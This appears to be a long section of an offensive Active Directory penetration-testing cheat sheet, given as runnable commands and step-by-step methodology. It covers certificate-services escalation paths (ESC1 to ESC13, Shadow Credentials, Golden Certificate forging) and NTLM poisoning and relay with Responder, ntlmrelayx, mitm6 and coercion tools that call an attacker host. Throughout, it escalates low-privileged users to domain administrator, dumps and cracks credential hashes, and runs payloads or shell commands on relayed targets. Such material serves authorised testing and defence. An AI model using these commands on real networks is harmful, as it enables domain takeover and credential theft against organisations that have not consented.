certutil -view # Query issued and pending certificate requestsThe template dump exposes the msPKI-Certificate-Name-Flag and msPKI-Enrollment-Flag values that drive the ESC classifications. The bit named CT_FLAG_ENROLLEE_SUPPLIES_SUBJECT (0x1) inside msPKI-Certificate-Name-Flag is the ESC1 marker; CT_FLAG_NO_SECURITY_EXTENSION (0x80000) is the ESC9 marker.
# Example: request an on-target enrollment against a template
certutil -attrib "SAN:upn=administrator@<domain.local>" -template "<vulnerable-template>" -config "<ca-fqdn>\<ca-name>" <req.inf> <out.cer>9.3.1 Checking for Installed Certificates
Enumerate existing personal store certificates:
Get-ChildItem -Path Cert:\CurrentUser\My
Get-ChildItem -Path Cert:\LocalMachine\My9.3.2 Exporting Certificates
Export a cert (with private key) from the current user's store:
$cert = Get-ChildItem -Path Cert:\CurrentUser\My\<thumbprint>
$pwd = ConvertTo-SecureString -String '' -AsPlainText -Force
Export-PfxCertificate -Cert $cert -FilePath cert.pfx -Password $pwd 9.3.3 Extracting the Private Key
Extract the private key from the PFX with openssl:
openssl pkcs12 -in cert.pfx -nocerts -out priv.key
openssl pkcs12 -in cert.pfx -clcerts -nokeys -out cert.pem9.3.4 ESC1, Misconfigured Enrollment Rights
ESC1 template characteristics:
- Client Authentication or Smart Card Logon EKU enabled
- ENROLLEE_SUPPLIES_SUBJECT flag set, the requester chooses the subject
- Manager approval not required
- Low-privileged users can enroll
Combined, a low-priv user can request a cert for Administrator. Certipy automates end-to-end:
certipy find -u user@domain.local -p -dc-ip
certipy req -u user@domain.local -p -target dc.domain.local -template VulnTemplate -upn administrator@domain.local -ca 'domain-DC-CA' Methodology
- Confirm the template has
ENROLLEE_SUPPLIES_SUBJECT, Client Auth or Smart Card Logon EKU, and low-priv enrollment:certipy find -u user@domain.local -p pass -dc-ip <dc-ip> -template <template-name> -stdout - Request a certificate with
-upn administrator@<domain>usingcertipy req:certipy req -u user@domain.local -p pass -target dc.domain.local -template VulnTemplate -upn administrator@domain.local -ca 'domain-DC-CA' - Authenticate with the certificate to obtain a TGT and the target's NTLM hash:
certipy auth -pfx administrator.pfx -dc-ip <dc-ip>
9.3.5 ESC2, Any Purpose EKU
ESC2 templates have Any Purpose (OID 2.5.29.37.0) in their EKU list, or no EKU at all. Any Purpose implicitly allows Client Authentication, so a certificate issued under an ESC2 template can be used to authenticate to the domain even if the template was intended for something else. Enrollment rights are usually open to Domain Users, which turns this into an ESC1-style abuse without needing ENROLLEE_SUPPLIES_SUBJECT.
# Enroll against an ESC2 template: subject is fixed by the CA, but the cert works for PKINIT anyway
certipy req -u <user>@<domain.local> -p '<password>' -target <dc-fqdn> -template <esc2-template> -ca '<ca-name>'Methodology
- Confirm the template's EKU list contains
Any Purpose(OID2.5.29.37.0) or is empty:certipy find -u user@domain.local -p pass -dc-ip <dc-ip> -stdout | grep -A2 'Any Purpose' - Enroll as your current user; the CA fixes the subject but the certificate authenticates via PKINIT anyway:
certipy req -u user@domain.local -p pass -target dc.domain.local -template <esc2-template> -ca 'domain-DC-CA'
9.3.6 ESC3, Certificate Request Agent
ESC3 relies on the Certificate Request Agent EKU. A template with that EKU lets an enrollee request certificates on behalf of other users. The chain is a two-step enrollment: first, enroll for the Certificate Request Agent template; second, use that agent cert to request a Client Authentication cert for a Domain Admin.
# Step 1: enroll for the agent template
certipy req -u <user>@<domain.local> -p '<password>' -target <dc-fqdn> -template 'CertRequestAgent' -ca '<ca-name>'
# Step 2: request a cert on behalf of a Domain Admin using the agent cert
certipy req -u <user>@<domain.local> -p '<password>' -target <dc-fqdn> -template 'User' -on-behalf-of '<domain>\administrator' -pfx agent.pfx -ca '<ca-name>'Methodology
- Locate a template carrying the
Certificate Request AgentEKU that Domain Users can enroll in:certipy find -u user@domain.local -p pass -dc-ip <dc-ip> -stdout | grep -A2 'Certificate Request Agent' - Enroll for the agent template, then submit an
-on-behalf-ofrequest for a Domain Admin against a Client Auth template:certipy req -u user@domain.local -p pass -target dc.domain.local -template 'CertRequestAgent' -ca 'domain-DC-CA' certipy req -u user@domain.local -p pass -target dc.domain.local -template 'User' -on-behalf-of 'domain\administrator' -pfx agent.pfx -ca 'domain-DC-CA'
9.3.7 ESC4, Vulnerable Template DACL
ESC4 is a permissions problem rather than a template-flags problem. If a low-privileged principal has write access on a certificate template object (WriteDacl, WriteOwner, GenericAll, GenericWrite), the template can be rewritten into an ESC1-shaped configuration and then abused normally.
# Rewrite the template into an ESC1 configuration (subject supplied, client auth EKU, no manager approval)
certipy template -u <user>@<domain.local> -p '<password>' -template <template-name> -save-old
# Now abuse it as ESC1
certipy req -u <user>@<domain.local> -p '<password>' -target <dc-fqdn> -template <template-name> -upn administrator@<domain.local> -ca '<ca-name>'
# Restore the original template when finished
certipy template -u <user>@<domain.local> -p '<password>' -template <template-name> -configuration <saved-config>Methodology
- Confirm write access on the template object (
WriteDacl,WriteOwner,GenericAll, orGenericWrite):certipy find -u user@domain.local -p pass -dc-ip <dc-ip> -vulnerable -stdout | grep -B1 -A5 'ESC4' - Save the original template configuration, rewrite into an ESC1 shape, request a cert as an admin, then restore:
certipy template -u user@domain.local -p pass -template <template-name> -save-old certipy req -u user@domain.local -p pass -target dc.domain.local -template <template-name> -upn administrator@domain.local -ca 'domain-DC-CA' certipy template -u user@domain.local -p pass -template <template-name> -configuration <saved-config>
9.3.8 ESC5, Vulnerable PKI Object DACL
ESC5 covers writable DACLs on the PKI-related objects around the CA itself: the CA object in the Configuration container, the Enrollment Services container, the NTAuthCertificates object, and similar. Compromising any of these grants persistent control over the certificate services in the domain, up to and including full CA takeover.
# Certipy find surfaces vulnerable PKI-object DACLs alongside template ESCs
certipy find -u <user>@<domain.local> -p '<password>' -dc-ip <dc-ip> -vulnerable -stdoutMethodology
- Identify writable DACLs on the CA object, Enrollment Services container, or the NTAuthCertificates object:
certipy find -u user@domain.local -p pass -dc-ip <dc-ip> -vulnerable -stdout | grep -A5 'ESC5' - Rewrite the DACL to grant yourself
ManageCAor template-write, then pivot into ESC4 or ESC7 for the actual escalation:# Grant self ManageCA / template-write via BloodyAD, then pivot into ESC4/ESC7 bloodyAD --host <dc-ip> -u user -p pass -d domain.local add uac <ca-obj> -f MANAGE_CA
9.3.9 ESC6, EDITF_ATTRIBUTESUBJECTALTNAME2
The EDITF_ATTRIBUTESUBJECTALTNAME2 flag on the CA lets any enrollment request specify an arbitrary Subject Alternative Name, regardless of the template. Any template that issues a Client Authentication cert becomes an ESC1 when this flag is set. It is disabled by default on modern CAs but still turns up on older environments.
# certipy find flags this at the CA level
certipy find -u <user>@<domain.local> -p '<password>' -dc-ip <dc-ip> -vulnerable -stdout
# Request a cert for any user under any Client Auth template
certipy req -u <user>@<domain.local> -p '<password>' -target <dc-fqdn> -template 'User' -upn administrator@<domain.local> -ca '<ca-name>'Methodology
- Confirm
EDITF_ATTRIBUTESUBJECTALTNAME2is set on the CA (Certipy reports it in the CA info block):certipy find -u user@domain.local -p pass -dc-ip <dc-ip> -stdout | grep EDITF_ATTRIBUTESUBJECTALTNAME2 - Enroll against any Client Authentication template with
-upn administrator@<domain>:certipy req -u user@domain.local -p pass -target dc.domain.local -template 'User' -upn administrator@domain.local -ca 'domain-DC-CA'
9.3.10 ESC7, Vulnerable CA Access Control
ESC7 is a writable DACL on the CA itself (ManageCA or ManageCertificates rights). ManageCA allows setting the EDITF_ATTRIBUTESUBJECTALTNAME2 flag on the CA policy or adding officers; ManageCertificates allows approving pending requests. Chained together, a foothold with ManageCA becomes ESC6 without needing the CA to have started that way.
# Grant yourself the officer role on the CA (needs ManageCA)
certipy ca -u <user>@<domain.local> -p '<password>' -ca '<ca-name>' -add-officer <user>
# Enable EDITF_ATTRIBUTESUBJECTALTNAME2
certipy ca -u <user>@<domain.local> -p '<password>' -ca '<ca-name>' -enable-flag EDITF_ATTRIBUTESUBJECTALTNAME2
# Submit a request under any Client Auth template and approve it (needs ManageCertificates)
certipy req -u <user>@<domain.local> -p '<password>' -target <dc-fqdn> -template 'SubCA' -upn administrator@<domain.local> -ca '<ca-name>'
certipy ca -u <user>@<domain.local> -p '<password>' -ca '<ca-name>' -issue-request <request-id>Methodology
- Verify you hold
ManageCAand/orManageCertificateson the CA object:certipy find -u user@domain.local -p pass -dc-ip <dc-ip> -stdout | grep -A2 'ManageCA\|ManageCertificates' - Grant yourself CA officer rights, then either flip the
EDITF_ATTRIBUTESUBJECTALTNAME2flag to pivot into ESC6, or submit-and-approve a request under a Client Auth template:certipy ca -u user@domain.local -p pass -ca 'domain-DC-CA' -add-officer user certipy ca -u user@domain.local -p pass -ca 'domain-DC-CA' -enable-flag EDITF_ATTRIBUTESUBJECTALTNAME2 certipy req -u user@domain.local -p pass -target dc.domain.local -template 'SubCA' -upn administrator@domain.local -ca 'domain-DC-CA' certipy ca -u user@domain.local -p pass -ca 'domain-DC-CA' -issue-request <request-id>
9.3.11 ESC8, Web Enrollment NTLM Relay
ADCS Web Enrollment (the /certsrv/ HTTP endpoint) accepts NTLM authentication by default and does not enforce channel binding or HTTPS in many deployments. An attacker coerces a machine account (or a Domain Controller) to authenticate via a primitive like PetitPotam or DFSCoerce, relays that NTLM to /certsrv/, and receives a certificate for the coerced identity.
# 1. Start ntlmrelayx pointed at Web Enrollment with the DomainController template
ntlmrelayx.py -t http://<ca-fqdn>/certsrv/certfnsh.asp --adcs --template DomainController
# 2. Coerce a target (PetitPotam works against unpatched DCs)
python3 PetitPotam.py -u <user> -p '<password>' -d <domain> <attacker-ip> <target-dc>
# 3. Alternative coercion primitives when PetitPotam is patched
python3 dfscoerce.py -u <user> -p '<password>' -d <domain> <attacker-ip> <target-dc>
python3 printerbug.py <domain>/<user>:'<password>'@<target-dc> <attacker-ip>
# 4. Authenticate with the relayed certificate to get the DC's TGT and NTLM hash
certipy auth -pfx <dc>.pfx -dc-ip <dc-ip>Methodology
- Confirm
/certsrv/Web Enrollment is reachable and accepts NTLM without EPA / channel binding:curl -sk https://<ca-fqdn>/certsrv/ -I - Start
ntlmrelayx --adcs --template DomainControlleragainst the Web Enrollment endpoint:ntlmrelayx.py -t http://<ca-fqdn>/certsrv/certfnsh.asp --adcs --template DomainController - Coerce the target with PetitPotam, DFSCoerce, or PrinterBug and authenticate with the relayed certificate:
python3 PetitPotam.py -u user -p pass -d domain.local <attacker-ip> <target-dc> certipy auth -pfx <dc>.pfx -dc-ip <dc-ip>
9.3.12 ESC9, No Security Extension
ESC9 templates have the CT_FLAG_NO_SECURITY_EXTENSION flag set, which suppresses the szOID_NTDS_CA_SECURITY_EXT extension in issued certificates. That extension is what a KDC uses to bind a certificate to a specific SID during PKINIT. Without it, weak certificate mappings on the DC (see ESC10) can be used to authenticate as a different account by changing the target's userPrincipalName.
# Precondition: attacker holds GenericWrite over the sacrificial user account
# 1. Rewrite the sacrificial account's UPN to match the target
certipy account -u <user>@<domain.local> -p '<password>' -user <sacrificial-user> -upn administrator update
# 2. Enroll for the ESC9 template as the sacrificial user
certipy req -u <sacrificial-user>@<domain.local> -p '<password>' -target <dc-fqdn> -template <esc9-template> -ca '<ca-name>'
# 3. Revert the UPN
certipy account -u <user>@<domain.local> -p '<password>' -user <sacrificial-user> -upn <sacrificial-user>@<domain.local> update
# 4. Authenticate: the DC maps by UPN because there is no security extension
certipy auth -pfx <sacrificial-user>.pfx -domain <domain.local> -username administratorMethodology
- Confirm the template has
CT_FLAG_NO_SECURITY_EXTENSIONand you holdGenericWriteover a sacrificial account:certipy find -u user@domain.local -p pass -dc-ip <dc-ip> -vulnerable -stdout | grep -A5 ESC9 - Swap the sacrificial account's UPN to the target, enroll, revert the UPN, then authenticate:
certipy account -u user@domain.local -p pass -user <sacrificial-user> -upn administrator update certipy req -u <sacrificial-user>@domain.local -p pass -target dc.domain.local -template <esc9-template> -ca 'domain-DC-CA' certipy account -u user@domain.local -p pass -user <sacrificial-user> -upn <sacrificial-user>@domain.local update certipy auth -pfx <sacrificial-user>.pfx -domain domain.local -username administrator
9.3.13 ESC10, Weak Certificate Mappings
ESC10 targets weak certificate mapping configurations on the domain controller itself. The registry values CertificateMappingMethods and StrongCertificateBindingEnforcement control how strictly the DC enforces the binding between a certificate and an account. When strict enforcement is off, a certificate with an alternate identity in its Subject or SAN can authenticate as an account other than the one it was issued to.
# Same abuse shape as ESC9, works even when the security extension is present
# because the DC's mapping enforcement is what fails, not the extension.
certipy account -u <user>@<domain.local> -p '<password>' -user <sacrificial-user> -upn administrator update
certipy req -u <sacrificial-user>@<domain.local> -p '<password>' -target <dc-fqdn> -template User -ca '<ca-name>'
certipy account -u <user>@<domain.local> -p '<password>' -user <sacrificial-user> -upn <sacrificial-user>@<domain.local> update
certipy auth -pfx <sacrificial-user>.pfx -domain <domain.local> -username administratorMethodology
- Read the DC's
CertificateMappingMethodsandStrongCertificateBindingEnforcementregistry values:Get-ItemProperty 'HKLM:\SYSTEM\CurrentControlSet\Services\Kdc' | Select-Object StrongCertificateBindingEnforcement Get-ItemProperty 'HKLM:\SYSTEM\CurrentControlSet\Control\SecurityProviders\Schannel' | Select-Object CertificateMappingMethods - With weak enforcement, use the same UPN-swap flow as ESC9 against any Client Auth template:
certipy account -u user@domain.local -p pass -user <sacrificial-user> -upn administrator update certipy req -u <sacrificial-user>@domain.local -p pass -target dc.domain.local -template User -ca 'domain-DC-CA' certipy account -u user@domain.local -p pass -user <sacrificial-user> -upn <sacrificial-user>@domain.local update certipy auth -pfx <sacrificial-user>.pfx -domain domain.local -username administrator
9.3.14 ESC11, Relay to ICPR
ESC11 extends the ESC8 idea from HTTP Web Enrollment to the ICertPassage Remote Protocol (RPC) endpoint. When the CA's ICPR interface does not enforce packet-level integrity (IF_ENFORCEENCRYPTICERTREQUEST off), NTLM auth can be relayed to it and used to enroll certificates for the coerced identity.
# ntlmrelayx supports ICPR directly
ntlmrelayx.py -t rpc://<ca-fqdn> -rpc-mode ICPR -icpr-ca-name '<ca-name>' --adcs --template DomainController
# Coerce as in ESC8
python3 PetitPotam.py -u <user> -p '<password>' -d <domain> <attacker-ip> <target-dc>Methodology
- Confirm ICPR does not enforce
IF_ENFORCEENCRYPTICERTREQUEST:certipy find -u user@domain.local -p pass -dc-ip <dc-ip> -stdout | grep -A2 IF_ENFORCEENCRYPTICERTREQUEST - Start
ntlmrelayx -t rpc://<ca> -rpc-mode ICPRand trigger any coercion primitive:ntlmrelayx.py -t rpc://<ca-fqdn> -rpc-mode ICPR -icpr-ca-name 'domain-DC-CA' --adcs --template DomainController python3 PetitPotam.py -u user -p pass -d domain.local <attacker-ip> <target-dc>
9.3.15 ESC13, OID Group Link
ESC13 exploits an Application Policy OID linked to a Universal Security Group. When a template's Application Policy OID resolves to a group, any principal authenticating with a certificate issued under that template is treated as a member of that group for the lifetime of the token. Compromise of enrollment rights on the linked template becomes group membership, without touching the group's actual members.
# Enroll for the ESC13 template: the resulting cert grants effective group membership
certipy req -u <user>@<domain.local> -p '<password>' -target <dc-fqdn> -template <esc13-template> -ca '<ca-name>'
certipy auth -pfx <user>.pfx -dc-ip <dc-ip>Methodology
- Identify a template whose Application Policy OID resolves to a Universal Security Group Certipy flags as ESC13:
certipy find -u user@domain.local -p pass -dc-ip <dc-ip> -vulnerable -stdout | grep -A5 ESC13 - Enroll against the template; the issued certificate grants effective membership in the linked group at authentication time:
certipy req -u user@domain.local -p pass -target dc.domain.local -template <esc13-template> -ca 'domain-DC-CA' certipy auth -pfx user.pfx -dc-ip <dc-ip>
9.3.16 Shadow Credentials
Shadow Credentials is a persistence and lateral movement primitive that uses the msDS-KeyCredentialLink attribute (the Key Trust attribute for Windows Hello for Business). An attacker with write access to the attribute on a target account can add their own certificate-based credential, then authenticate as that account via PKINIT. The rest of the account's authentication (password, tokens) remains untouched.
# Prereq: write access to msDS-KeyCredentialLink on the target (GenericWrite is enough)
# 1. Add a shadow credential to the target
certipy shadow -u <user>@<domain.local> -p '<password>' -account '<target>' auto
# 2. certipy returns a TGT and NTLM hash for the target
# Read/write/list/clear/info sub-actions are also available
certipy shadow -u <user>@<domain.local> -p '<password>' -account '<target>' list
certipy shadow -u <user>@<domain.local> -p '<password>' -account '<target>' clearMethodology
- Confirm write access on the target's
msDS-KeyCredentialLink(GenericWriteis enough):Get-DomainObjectAcl -Identity <target> -ResolveGUIDs | ? { $_.ObjectAceType -match 'msDS-KeyCredentialLink' -or $_.ActiveDirectoryRights -match 'GenericWrite|GenericAll|WriteDacl' } - Run
certipy shadow autoto add a key credential and receive the TGT and NTLM hash in one step:certipy shadow -u user@domain.local -p pass -account '<target>' auto
9.3.17 Golden Certificate
A Golden Certificate is the ADCS analogue of the Golden Ticket. If the CA's private key is compromised, an attacker can forge certificates for any principal in the forest without touching the CA infrastructure. As long as the CA remains trusted (and its private key is not rotated), the forged certificates keep working, which turns this into permanent forest persistence.
# 1. Extract the CA private key from the compromised CA server (needs admin locally)
certipy ca -u <user>@<domain.local> -p '<password>' -backup -ca '<ca-name>'
# 2. Forge a Golden Certificate as Administrator using the extracted CA PFX
certipy forge -ca-pfx ca.pfx -upn administrator@<domain.local> -subject 'CN=Administrator,CN=Users,DC=<domain>,DC=<tld>'
# 3. Authenticate with the forged cert
certipy auth -pfx administrator_forged.pfx -dc-ip <dc-ip>Methodology
- Extract the CA private key from a compromised CA server with
certipy ca -backup:certipy ca -u user@domain.local -p pass -backup -ca 'domain-DC-CA' - Forge a certificate for any principal with
certipy forgeand authenticate to obtain a TGT:certipy forge -ca-pfx ca.pfx -upn administrator@domain.local -subject 'CN=Administrator,CN=Users,DC=domain,DC=local' certipy auth -pfx administrator_forged.pfx -dc-ip <dc-ip>
9.3.18 Authenticating with the Certificate
Use the certificate to obtain a TGT and the target's NTLM hash. Certipy walks the PKINIT exchange for you and returns both in one command.

certipy auth -pfx administrator.pfx -dc-ip Sample output, TGT saved as .ccache, plus the NTLM hash of the impersonated user, which becomes reusable material for PtH and DCSync.
Methodology
- Authenticate with the certificate to obtain a TGT and the target's NTLM hash:
certipy auth -pfx <user>.pfx -dc-ip <dc-ip>:certipy auth -pfx <user>.pfx -dc-ip <dc-ip> - Feed the NTLM hash into DCSync or use the TGT for further Kerberos operations:
secretsdump.py -hashes :<ntlm-hash> domain.local/administrator@<dc-ip> -just-dc
10. NTLM Relay Attacks
NTLM has one property that keeps it interesting: it is coercible. If I can force a victim to authenticate to a machine I control, and signing is not enforced at the far end, I can relay that authentication verbatim to a third-party service and act as the victim there. Coercion primitives keep multiplying (PetitPotam, DFSCoerce, WebClient triggers, and older printer-bug flavors), and every new one extends the reach of relay against DCs, ADCS Web Enrollment, and any SMB target where signing was left off.
Responder handles the poisoning half of the chain, ntlmrelayx handles the relay itself. The trick to running them together cleanly is turning off Responder's own SMB and HTTP listeners so ntlmrelayx can catch the traffic instead.

10.0 Baseline Workflow
Every relay chain shares the same first three steps: pick a target where signing is off, boot Responder without SMB/HTTP so ntlmrelayx catches the traffic, then coerce or wait for auth. The technique-specific methodology blocks below build on this baseline.
Methodology
- Scan the target segment for SMB signing state:
nmap --script=smb2-security-mode -p 445 <subnet>:nmap --script=smb2-security-mode -p 445 <subnet> - Turn off Responder's SMB and HTTP listeners so
ntlmrelayxcan bind to those ports:sed -i 's/SMB = On/SMB = Off/' /usr/share/responder/Responder.conf sed -i 's/HTTP = On/HTTP = Off/' /usr/share/responder/Responder.conf - Start Responder and
ntlmrelayxin parallel; wait for or force NTLM authentication:sudo responder -I eth0 -rdwv python3 ntlmrelayx.py -tf targets.txt -smb2support
10.1 LLMNR Poisoning
10.1.1 What is LLMNR
Link-Local Multicast Name Resolution is the fallback Windows uses when DNS cannot resolve a name. Devices on the same LAN ask each other via multicast, and the first host that answers wins. It replaced NBT-NS but kept the same design flaw: nothing prevents an attacker on the LAN from answering the multicast and impersonating the requested target long enough to capture the user's NTLMv2 handshake.

10.1.2 How LLMNR Poisoning Works
Responder answers name lookups with its own address. The victim connects thinking it has found the intended target, then offers an NTLMv2 handshake that Responder captures verbatim. In practice the best windows to run this are the morning login rush and the post-lunch period, when name resolution traffic is highest.

10.1.3 Running Responder
python Responder.py -I <interface> -rdw10.1.4 Saving NTLMv2 Hashes with Responder
Tee output for later analysis:
responder -I eth0 -rdwv | tee responderHash.txt10.1.5 Cracking the NTLMv2 Hash with Hashcat
Save the captured hash and run Hashcat mode 5600:
echo "admin::N46iSNekpT:08ca45b7d7ea58ee:" > hash.txt
hashcat -m 5600 hash.txt /path/to/wordlist.txt Mode 5600 = NetNTLMv2. RockYou often cracks weak passwords in seconds.
Methodology
- Run
responder -I <iface> -rdwvon the target VLAN and wait for a broadcast name lookup that DNS fails to resolve:sudo responder -I <iface> -rdwv - Collect the NTLMv2 handshake to
Responder-Session.log, then crack withhashcat -m 5600:hashcat -m 5600 hash.txt /usr/share/wordlists/rockyou.txt
10.2 SMB Relay
Rather than crack the hash, relay it directly to another SMB service. Requirements:
- Target machine must not enforce SMB signing.
- Relayed credentials must have admin rights on the target.
- Two attacker systems recommended, one for Responder, one for ntlmrelayx.
10.2.1 Step 1: Find Machines with SMB Signing Disabled
nmap --script=smb2-security-mode.nse -p 445 Look for Message signing enabled but not required, those hosts are relay targets.
10.2.2 Step 2: Build a Target List
Save the vulnerable IPs into targets.txt.
10.2.3 Step 3: Adjust Responder Settings
Disable Responder's SMB and HTTP responders so it only listens for names:
vim /usr/share/responder/Responder.conf
# or
vim /etc/responder/Responder.conf10.2.4 Step 4: Start Responder
python Responder.py -I eth0 -rdwv10.2.5 Step 5: Start ntlmrelayx
python ntlmrelayx.py -tf targets.txt -smb2support10.2.6 Step 6: Access the System
Successful relays land you SAM access on the target. Dump hashes and reuse or crack them.
10.2.7 Step 7: Post-Exploitation
Interactive mode drops you into a socks-like shell:
python ntlmrelayx.py -tf targets.txt -smb2support -i
nc 127.0.0.1 <port>Commands in the interactive session:
| Command | Description |
|---|---|
help | command list |
shares | enumerate shares |
use C$ | connect to the admin share |
ls | list content |
Deliver a Meterpreter payload:
python ntlmrelayx.py -tf targets.txt -smb2support -e test.exeRun a single command directly:
python ntlmrelayx.py -tf targets.txt -smb2support -c "whoami"Interactive shell via psexec:
python3 psexec.py /fcastle:@ Methodology
- Confirm the relayed identity is a local admin on the target host; SMB relay without admin gets you nothing usable:
# BloodHound: MATCH (u {name:'<RELAYED>'})-[:AdminTo]->(c:Computer) RETURN c # Or netexec: netexec smb <target> -u <relayed> -H <hash> - Run
ntlmrelayx.py -tf targets.txt -smb2support, then choose-e payload.exe,-c "cmd", or-idepending on the goal:python3 ntlmrelayx.py -tf targets.txt -smb2support python3 ntlmrelayx.py -tf targets.txt -smb2support -e payload.exe python3 ntlmrelayx.py -tf targets.txt -smb2support -c "whoami" python3 ntlmrelayx.py -tf targets.txt -smb2support -i - After a successful relay, dump SAM / LSA on the target and reuse extracted hashes for lateral movement:
secretsdump.py -sam SAM -security SECURITY -system SYSTEM LOCAL
10.3 Capturing Hashes with Responder
Responder is the flagship name-resolution poisoning tool. It targets three broadcast protocols Windows falls back to when DNS fails: LLMNR, NBT-NS, and mDNS.
10.3.1 Launching Responder
sudo responder -I eth0 -dwPFlags:
| Flag | Description |
|---|---|
-I | interface |
-d | respond to DHCP broadcast requests |
-w | start a rogue WPAD server |
-P | force NTLM auth (ProxyAuth) |
-v | verbose, replays captured hashes |
10.3.2 Forcing Traffic in Lab Environments
To trigger authentications:
- Power on a domain-joined VM
- Log in and search for an unresolvable name in File Explorer
Typing \\ in File Explorer (where that IP is your attack box) will trigger NTLM authentication.
10.3.3 Sample Output from Responder
[+] Poisoners:
LLMNR [ON]
NBT-NS [ON]
MDNS [ON]
[+] Servers:
HTTP/HTTPS/WPAD/SMB... [ON]
Kerberos, SQL, RDP... [ON]
[+] Responder NIC [eth0]
[+] Responder IP []
[+] Listening for events... 10.3.4 Cracking the Hash with Hashcat
Save the captured hash:
echo "ddumpster::LANDFILL:112233...000000" > hashes.txt
hashcat -m 5600 hashes.txt /usr/share/wordlists/rockyou.txtMethodology
- Run
responder -I <iface> -dwPvwith all poisoners on, plus rogue WPAD and forced NTLM auth:sudo responder -I <iface> -dwPv - Collect NTLMv2 hashes from
Responder-Session.logand crack withhashcat -m 5600:hashcat -m 5600 hashes.txt /usr/share/wordlists/rockyou.txt
10.4 Relay to LDAP for DACL Escalation
Relaying NTLM to LDAP does not give a shell but does give write access to the directory as the relayed user. Two useful primitives when the relayed identity is a computer account (typical after coercion): grant DCSync rights to an attacker-controlled principal, and configure Resource-Based Constrained Delegation onto the relayed computer.
# Relay to LDAP over LDAPS and escalate a low-priv account to Domain Sync rights
ntlmrelayx.py -t ldaps://<dc-fqdn> --escalate-user <low-priv-user>
# Set RBCD on the relayed computer, so an attacker computer can act on its behalf
ntlmrelayx.py -t ldaps://<dc-fqdn> --delegate-access
# Follow up: the low-priv account now has DCSync
secretsdump.py <domain.local>/<low-priv-user>:'<password>'@<dc-ip> -just-dc-ntlmMethodology
- Relay to LDAPS (LDAP signing usually blocks LDAP relays but leaves LDAPS open):
python3 ntlmrelayx.py -t ldaps://<dc-fqdn> --escalate-user <low-priv-user> - Use
--escalate-userto grant DCSync to a low-priv account, or--delegate-accessto set RBCD on the relayed computer:python3 ntlmrelayx.py -t ldaps://<dc-fqdn> --delegate-access - Verify with
secretsdump.py -just-dc-ntlm:secretsdump.py domain.local/<low-priv-user>:pass@<dc-ip> -just-dc-ntlm
10.4a Certipy Relay Mode
Certipy ships with a built-in relay mode that combines the coercion, the relay to ADCS Web Enrollment or ICPR, and the certificate collection into a single command. It removes the two-terminal juggle of ntlmrelayx + coercer and reports the resulting PFX inline.
# Web Enrollment (ESC8) end-to-end
certipy relay -target http://<ca-fqdn> -template DomainController
# ICPR (ESC11) end-to-end
certipy relay -target rpc://<ca-fqdn> -template DomainController -rpc-mode ICPR -icpr-ca-name '<ca-name>'
# Coerce in parallel using PetitPotam / Coercer / PrinterBug
python3 PetitPotam.py -u <user> -p '<password>' -d <domain> <attacker-ip> <target-dc>10.5 Relay to ADCS Web Enrollment (ESC8)
ADCS Web Enrollment defaults to NTLM auth without channel binding and issues certificates against templates, which means a relayed machine account becomes a valid PKINIT identity. The relayed target is the /certsrv/ endpoint and the requested template is usually DomainController.
# ntlmrelayx sends the certificate request on behalf of the relayed identity
ntlmrelayx.py -t http://<ca-fqdn>/certsrv/certfnsh.asp --adcs --template DomainController
# Coerce a DC to authenticate: the relayed cert lets you DCSync
python3 PetitPotam.py -u <user> -p '<password>' -d <domain> <attacker-ip> <target-dc>
certipy auth -pfx <dc>.pfx -dc-ip <dc-ip>Methodology
- Point
ntlmrelayx --adcs --template DomainControllerathttp://<ca>/certsrv/certfnsh.asp:python3 ntlmrelayx.py -t http://<ca-fqdn>/certsrv/certfnsh.asp --adcs --template DomainController - Coerce the DC with PetitPotam, DFSCoerce, or PrinterBug; the relayed cert authenticates as the DC via PKINIT:
python3 PetitPotam.py -u user -p pass -d domain.local <attacker-ip> <target-dc> - Authenticate with the resulting PFX to receive the DC's TGT and NTLM hash for DCSync:
certipy auth -pfx <dc>.pfx -dc-ip <dc-ip>
10.6 Relay to MSSQL
MSSQL supports NTLM auth and is often reachable from segments that cannot reach LDAP or SMB. Relaying to MSSQL gives a database session under the relayed identity, which is usually enough to abuse xp_cmdshell where the relayed account is a sysadmin.
ntlmrelayx.py -t mssql://<target-fqdn> -q 'EXEC xp_cmdshell "whoami"'
# Multiple queries interactively via the socks proxy mode
ntlmrelayx.py -t mssql://<target-fqdn> -socksMethodology
- Verify the relayed identity has sysadmin (or equivalent) on the target instance:
# Check whether the relayed principal is a sysadmin python3 mssqlclient.py -windows-auth <domain>/<user>:<pass>@<target> -q "SELECT IS_SRVROLEMEMBER('sysadmin')" - Relay to MSSQL with
-q 'EXEC xp_cmdshell "<cmd>"', or use-socksfor interactive follow-up:python3 ntlmrelayx.py -t mssql://<target-fqdn> -q 'EXEC xp_cmdshell "whoami"' python3 ntlmrelayx.py -t mssql://<target-fqdn> -socks
10.7 mitm6, IPv6 as a Poisoning Route
Windows prefers IPv6 over IPv4 when both are available. On most enterprise networks IPv6 is enabled but not configured, which means a rogue DHCPv6 responder can register itself as the network's DNS server. mitm6 does exactly that, then answers every AAAA query with its own address. Combined with ntlmrelayx it captures authentication that would otherwise never travel via LLMNR.
# Poison DHCPv6 and hand out yourself as DNS
mitm6 -i eth0 -d <domain.local>
# Relay the resulting NTLM in a second terminal
ntlmrelayx.py -6 -wh <attacker-fqdn> -t ldaps://<dc-fqdn> --escalate-user <low-priv-user>Methodology
- Run
mitm6 -i <iface> -d <domain.local>to hand out yourself as the DNS server via DHCPv6:mitm6 -i <iface> -d domain.local - Relay the intercepted authentication with
ntlmrelayx -6 -wh <attacker-fqdn>against LDAPS:python3 ntlmrelayx.py -6 -wh <attacker-fqdn> -t ldaps://<dc-fqdn> --escalate-user <low-priv-user>
10.8 Coercion Primitives
Every relay attack starts with coerced authentication. The primitives keep multiplying as Microsoft patches individual RPC methods, so it is worth knowing the current live set.
# PetitPotam via MS-EFSR: historically the most reliable
python3 PetitPotam.py -u <user> -p '<password>' -d <domain> <attacker-ip> <target-dc>
# DFSCoerce via MS-DFSNM: added after PetitPotam patches
python3 dfscoerce.py -u <user> -p '<password>' -d <domain> <attacker-ip> <target-dc>
# Print Spooler bug (MS-RPRN): legacy but still works where Spooler is enabled
SpoolSample.exe <target> <attacker-fqdn>
# Coercer: a Swiss-army tool that tries every known primitive against a target
coercer coerce -u <user> -p '<password>' -d <domain> -l <attacker-ip> -t <target>Methodology
- Start with PetitPotam (MS-EFSR); fall back to DFSCoerce (MS-DFSNM) or PrinterBug (MS-RPRN) when patched:
